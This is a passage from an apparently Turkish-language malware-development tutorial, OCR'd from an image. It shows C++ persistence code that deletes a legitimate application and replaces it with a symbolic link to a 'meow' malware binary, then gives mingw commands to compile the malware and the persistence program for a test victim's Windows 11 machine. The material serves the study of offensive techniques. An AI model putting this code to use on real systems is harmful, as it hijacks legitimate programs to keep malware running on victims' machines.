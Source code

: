 ```cpp
    printf("error deleting original file: %d\n", GetLastError());
    return 1;
  }
  printf("original file deleted successfully\n");
  CloseHandle(hFile);

  HMODULE kernel = GetModuleHandle("kernel32.dll");
  pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
  GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

  // create the symbolic link
  if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
    printf("error creating symlink: %d\n", GetLastError());
    return 1;
  }

  printf("symlink to meow created successfully =^..^=\n");
  return 0;
}
```

Dikkat edin, bu PoC, Windows API işlevleri, dosya güvenliği ve SID (Security Identifier) işleme için gerekli başlık dosyalarını içerir. Ayrıca, `CreateSymbolicLinkA` fonksiyonuna bir işlev işaretçisi içerir (mingw derleyicim hatasız derlemeyi reddettiği için).    

### demo

Şimdi her şeyi çalışırken görelim.         

`meow-meow` "kötü amaçlı yazılımımızı" `hack.c` dosyasını derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![malware](./images/128/2024-07-09_13-20.png){width="80%"}      

Ve kalıcılık betiğini derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![malware](./images/128/2024-07-14_12-54.png){width="80%"}      

Daha sonra, test kurbanının makinesinde (Windows 11 x64) çalıştıralım:    

